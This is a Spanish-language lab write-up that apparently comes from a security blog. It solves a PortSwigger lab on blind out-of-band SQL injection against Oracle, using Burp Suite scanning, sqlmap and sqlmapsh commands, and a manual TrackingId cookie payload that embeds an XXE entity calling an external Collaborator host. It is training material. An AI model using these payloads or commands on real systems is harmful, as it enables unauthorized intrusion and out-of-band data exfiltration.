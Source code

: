 ```yaml
---
title: ""
date: 2025-02-11 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Out Of Band)
  - Blind SQL injection with out-of-band interaction
  - Oracle Database
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `Blind SQL Injection`, la aplicación utiliza una `cookie` de seguimiento para análisis y realiza una `consulta SQL` que incluye el valor de la cookie enviada. La `consulta SQL` se ejecuta de forma asíncrona y no afecta la respuesta de la aplicación. Sin embargo, puedes `desencadenar` interacciones `out-of-band` con un `dominio externo`. Para `resolver el laboratorio`, hay que explotar la `vulnerabilidad` de `inyección SQL` para provocar una consulta `DNS` a `Burp Collaborator`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-16/image_1.png)

Hay algunas `Out-of-Band SQL Injections` que no pueden ser detectadas o explotadas por `sqlmap`. En estas situaciones podemos `realizar` un `escaneo completo` con `Burpsuite` para `detectarlas`, para ello, debemos `capturar` la `petición` y pulsar `click derecho > Scan`

![](/assets/img/SQLI-Lab-16/image_2.png)

Posteriormente se nos `abrirá` esta `ventana`, en la cual debemos de `seleccionar` la opción `Crawl and audit`

![](/assets/img/SQLI-Lab-16/image_3.png)

Posteriormente deberemos `seleccionar` la `configuración` del `escaneo`. Recomendaría usar `Deep`, ya que, es el más `completo`. Una vez seleccionadas estas opciones `pulsamos` sobre `Scan`

![](/assets/img/SQLI-Lab-16/image_4.png)

Si nos dirigimos a `Dashboard` veremos que nos `detecta` la `inyección SQL`

![](/assets/img/SQLI-Lab-16/image_5.png)

Otra opción más específica es `escanear` los `insertion points`. Para ello, `enviamos` la `petición` al `Intruder` y `seleccionamos` los `insertion points` a `analizar`

![](/assets/img/SQLI-Lab-16/image_6.png)

Posteriormente pulsamos `click derecho > Scan defined insertion points > Open scan launcher`, seleccionamos `Audit selected items` y `pulsamos` sobre `Scan`

![](/assets/img/SQLI-Lab-16/image_7.png)

![](/assets/img/SQLI-Lab-16/image_8.png)

Si nos dirigimos a `Dashboard` veremos que también nos `detecta` la `inyección SQL`

![](/assets/img/SQLI-Lab-16/image_9.png)

También es posible detectar las `Out-of-Band SQL Injections` mediante `sqlmap`. Para ello, necesitamos `instalar` la `extensión` de `Burpsuite` llamada `SQLMAP DNS Collaborator`

![](/assets/img/SQLI-Lab-16/image_10.png)

Una vez instalada nos dirigimos a `Extensions > Installed` y pulsamos sobre el `nombre de la extensión`. Vemos que en la `primera línea` nos muestra un servidor `--dns-domain=gm6n1v54k2yapzbqc1di32ti59bzzo.oastify.com`, este es el que debemos usar al ejecutar `sqlmap`

![](/assets/img/SQLI-Lab-16/image_11.png)

Cada vez que queramos un `nuevo servidor` debemos `pulsar` sobre el `cuadro de texto` de la `extensión` para `desactivarla` y luego `pulsar nuevamente` para cargarla

![](/assets/img/SQLI-Lab-16/image_12.png)

Ejecutamos `sqlmap` con `sudo`

```
# sudo sqlmap -u https://0a8000ee030f0a7b80b708ab00fe001a.web-security-academy.net/ --risk=3 --level=5 --random-agent --batch --dbs --cookie="TrackingId=ltMxaizgXCdtiCXN*; session=ekfByIBkIPxRiuEoPiRItaXMNC3HwXSB" --dns-domain=gm6n1v54k2yapzbqc1di32ti59bzzo.oastify.com --dbms oracle
```

Si encuentra algo, se `mostrará` en el apartado de `Show in UI`

![](/assets/img/SQLI-Lab-16/image_13.png)

Como alternativa, podemos usar `sqlmapsh` [https://github.com/unlock-security/sqlmapsh.git](https://github.com/unlock-security/sqlmapsh.git). Se usaría de la misma forma que `sqlmap`, pero no es necesario proporcionar el parámetro `--dns-domain`, ya que lo hace internamente

```
# sudo sqlmapsh -u https://0a8000ee030f0a7b80b708ab00fe001a.web-security-academy.net --risk=3 --level=5 --random-agent --dbs --batch --cookie="TrackingId=ltMxaizgXCdtiCXN*; session=ekfByIBkIPxRiuEoPiRItaXMNC3HwXSB"
```

Este `laboratorio` no se puede resolver usando `sqlmap` o `sqlmapsh`. La única forma que hay de `identificar` la `inyección SQL` es `manualmente` o mediante el `escáner` de `Burpsuite`. Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`, probando los `payload` de [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). En este caso vamos a usar este `payload`

![](/assets/img/SQLI-Lab-16/image_14.png)

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- - 
```

Antes de enviar la petición debemos hacer `click` en `Collaborator > Copy to clipboard`. Sustituimos el campo `BURP-COLLABORATOR-SUBDOMAIN` por el `subdominio` copiado 

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/"> %remote;]>'),'/l') FROM dual)-- - ; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Una vez hecho esto debemos `urlencodear` el `payload` y `enviar` la `petición`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Si nos dirigimos a la parte de `Collaborator` y pulsamos en `Poll now` nos llegarán las `peticiones` a nuestro servidor

![](/assets/img/SQLI-Lab-16/image_15.png)
